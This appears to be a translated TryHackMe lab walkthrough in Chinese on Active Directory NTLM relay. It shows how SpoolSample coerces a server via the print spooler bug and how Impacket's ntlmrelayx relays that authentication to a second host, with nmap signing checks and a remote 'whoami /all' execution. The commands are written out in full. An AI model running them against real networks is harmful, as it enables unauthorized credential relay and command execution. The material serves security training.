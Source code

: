 此查询将尝试查找一台计算机与另一台计算机具有“AdminTo”关系的实例。您应该看到类似于以下内容的输出

<img src='https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/43d7164804282cedecd32a90c10c102b.png' />

### 打印机错误

这不是一个错误，而是一个功能 - 微软。

说真的，当这被报道时，微软回应说这是一个功能。打印机错误是 MS-RPRN 协议（打印系统远程协议）的“功能”，它允许域用户远程强制运行打印后台处理程序服务的目标主机对任意 IP 地址进行身份验证。近年来出现了一些这样的错误：Spooler，PetitPotam，PrintNightmare。微软声称唯一的错误是其中一些根本不需要AD凭据，但此问题已通过安全补丁解决。

因此，要利用这一点，除了计算机帐户管理权限外，我们还需要满足以下四个条件：

    1.一组有效的 AD 帐户凭据。
    2.与目标的 SMB 服务的网络连接。
    3.目标主机必须运行后台打印程序服务。
    4.主机不得强制实施 SMB 签名。

条件 1 和 2 已满足。我们只需要确保工作的两个是条件3和4。

### 打印后台处理程序服务

我们需要确定打印后台处理程序服务是否正在运行。由于我们无法访问 THMSERVER2，因此我们需要从网络角度进行查询。在这种情况下，我们可以使用 THMWRK1 上 SSH 会话中的 WMI 查询来查询服务的当前状态：

    Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc

### SMB签名

为了中继强制身份验证尝试，不应强制实施 SMB 签名。应该注意的是，允许 SMB 签名和强制实施 SMB 签名之间存在差异。由于某些旧系统不支持 SMB 签名，因此默认情况下，SMB 的配置是允许但不强制签名，这意味着只有在支持的情况下才会使用它。由于我们将托管恶意 SMB 服务器，因此我们可以确保我们的服务器不支持签名，从而强制目标不对 SMB 身份验证尝试进行签名。

要验证 THMSERVER1 和 THMSERVER2 没有强制实施 SMB 签名，我们可以在 AttackBox 上使用 Nmap：

    nmap --script=smb2-security-mode -p445 thmserver1.za.tryhackme.loc thmserver2.za.tryhackme.loc

可以看到 SMB 签名已启用，但未根据输出强制执行。这意味着我们所有的条件都得到了满足，我们可以开始攻击了！

### 利用身份验证中继

我们将使用 [SpoolSample](https://github.com/leechristensen/SpoolSample) 来利用身份验证中继。这是一个 C# 漏洞，但已经为您编译并存储在 THMWRK1 的目录中。我们将使用 Spoolsample.exe 强制 THMSERVER2 在我们的 AttackBox 上向我们进行身份验证，然后使用 Impacket 的 [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) 来中继身份验证尝试 THMSERVER1。请注意，如果您使用的是自己的虚拟机，则需要确保拥有支持 SMBv2 的 Impacket 的更新版本。

第一步是设置 NTLM 中继。在我们的攻击框上，我们可以使用以下内容：

    thm@thm:~# python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -debug

如果我们指定 THMSERVER1 的主机名而不是 IP，主机可能会请求我们使用 Kerberos 身份验证而不是 NTLM。因此，我们应该指定 IP。通过中继侦听，我们现在可以强制 THMSERVER2 向我们进行身份验证。在 THMWRK1 上的 SSH 终端中，执行以下操作：

    SpoolSample.exe THMSERVER2.za.tryhackme.loc "Attacker IP"

您的攻击者 IP 应与网络的 tunX 接口相对应。如果一切顺利，您应该已收到身份验证尝试和到 THMSERVER1 的中继。

    thm$ python3.9 ntlmrelayx.py -smb2support -t smb://"THMSERVER1 IP" -c 'whoami /all' -debug

---